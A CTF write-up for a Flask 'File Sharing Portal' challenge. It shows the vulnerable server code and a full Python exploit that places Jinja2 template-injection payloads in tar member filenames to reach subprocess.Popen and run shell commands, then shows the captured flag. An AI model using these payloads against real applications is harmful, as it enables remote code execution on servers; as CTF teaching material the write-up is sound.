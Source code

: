+++
title = 'File Sharing Portal'
tags = [
  "Web",
  "Python",
  "Template Injection"
]
date = 2024-08-06T11:27:07+02:00
draft = true
+++

# File Sharing Portal

**Description**: Welcome to the file sharing portal! We only support tar files!

**Authors**: NoobMaster + NoobHacker

**Points**: 478

**Solve**: 119

## Introduction

The ctf has a very simple structure: we have a form in which we are asked to insert a [tar](https://en.wikipedia.org/wiki/Tar_(computing)) file; once the tar file has been inserted, it is unzipped and we are shown the `name` of files it contains; by clicking on the different files, we can read their contents.

## Source

**The source has comments added later to allow a better understanding of the code in the writeups**

```python
# filename: server.py

#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import tarfile
from hashlib import sha256
import os
app = Flask(__name__)

@app.route('/',methods=['GET','POST'])
def main():
    # This function mainly deals with loading the tar file into the server's file system.
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        file = request.files['file']
        if file.filename[-4:] != '.tar': # Check that the file passed is actually a tar file
            return render_template_string("<p> We only support tar files as of right now!</p>") # Otherwise, it renders an error message
        name = sha256(os.urandom(16)).digest().hex() # Creates a random name that it will use to name our tar and the folder in the server's file system
        os.makedirs(f"./uploads/{name}", exist_ok=True) # Create the directory
        file.save(f"./uploads/{name}/{name}.tar") # Save the tar file
        try:
            # Extract the tar file
            tar_file = tarfile.TarFile(f'./uploads/{name}/{name}.tar')
            tar_file.extractall(path=f'./uploads/{name}/')
            return render_template_string(f"<p>Tar file extracted! View <a href='/view/{name}'>here</a>")
        except:
            return render_template_string("<p>Failed to extract file!</p>")

@app.route('/view/<name>')
def view(name):
    # This function displays the files contained in the .tar file
    if not all([i in "abcdef1234567890" for i in name]): # Check that the file name is in hexadecimal, to avoid any kind of malicious input 
        return render_template_string("<p>Error!</p>")
        #print(os.popen(f'ls ./uploads/{name}').read())
            #print(name)
    files = os.listdir(f"./uploads/{name}") # List all files in the previously created folder 
    out = '<h1>Files</h1><br>'
    files.remove(f'{name}.tar')  # Remove the tar file from the list
    for i in files:
        out += f'<a href="/read/{name}/{i}">{i}</a>' # Show via templates all file names
       # except:
    return render_template_string(out) # Render the template with the render_template_string function

@app.route('/read/<name>/<file>')
def read(name,file):
    # The function shows the contents of the single file
    if (not all([i in "abcdef1234567890" for i in name])): # Check that the file name is in hexadecimal, to avoid any kind of malicious input 
        return render_template_string("<p>Error!</p>")
    if ((".." in name) or (".." in file)) or (("/" in file) or "/" in name):  # Other controls to avoid path er
        return render_template_string("<p>Error!</p>")
    f = open(f'./uploads/{name}/{file}') # Open the file
    data = f.read()
    f.close()
    return data # Return the content of file

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)


```

We can therefore see that there are several parameter checks, and at first one might think that the code is `100%` safe.

## Solution

The first thing that came to mind was to create a [symbolic link](https://www.futurelearn.com/info/courses/linux-for-bioinformatics/0/steps/201767) to access the flag, and indeed this works (try with server.py), the problem is that the filename of the flag is unknown and this does not allow us to create a valid symbolic link.

Once we realised this, we did a thorough analysis of the code and came to the conclusion that the only thing that was not being checked was the name of the unpacked tar file allowing us to insert anything. By combining this with the '`render_template_string`' function (a vulnerable function of flask), it is possible to perform a [template injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#what-is-ssti-server-side-template-injection).

```python
# filename: exploit.py

import requests
import os
import tarfile
from bs4 import BeautifulSoup

url = 'http://redacted.challs.n00bzunit3d.xyz:8080/'


def create_tar(tar_name, file):
    with tarfile.open(tar_name, 'w') as tar:
        tar.add(file, arcname=os.path.basename(file))
    print(f'Tar file created: {tar_name}')


def create_payload(payload):
    with open(payload, 'w') as f:
        f.write('Remember to byte the cookies')

    create_tar('exploit.tar', payload)
    print(f'Payload created: {payload}')


def get_url_view(text):
    soup = BeautifulSoup(text, 'html5lib')
    return [a['href'] for a in soup.find_all('a', href=True)][0]


def leak_subprocess_index():
    payload = "{{int.__class__.__base__.__subclasses__()}}"
    create_payload(payload)

    r = requests.post(url, files={'file': open('exploit.tar', 'rb')})

    url_file = get_url_view(r.text)
    r = requests.get(url + url_file)
    text = r.text[r.text.index('[')+1:]

    list_classes = text.split(',')

    for i, c in enumerate(list_classes):
        if 'subprocess.Popen' in c:
            print(f'Index subprocess.Popen: {i}')
            return str(i)


def get_flag(index):
    payload = "{{int.__class__.__base__.__subclasses__()[" + \
        index + "]('cat *', shell=True, stdout=-1).communicate()}}"
    create_payload(payload)

    r = requests.post(url, files={'file': open('exploit.tar', 'rb')})

    url_file = get_url_view(r.text)
    r = requests.get(url + url_file)

    flag = r.text[r.text.index('n00bz{'):r.text.index('}')+1]
    print(f'Flag: {flag}')


def main():
    subprocess_index = leak_subprocess_index()
    get_flag(subprocess_index)


if __name__ == '__main__':
    main()


```

```stdout
$ flag: n00bz{n3v3r_7rus71ng_t4r_4g41n!_b3506983087e}
```

<p align='right'>Author: Akiidjk </p>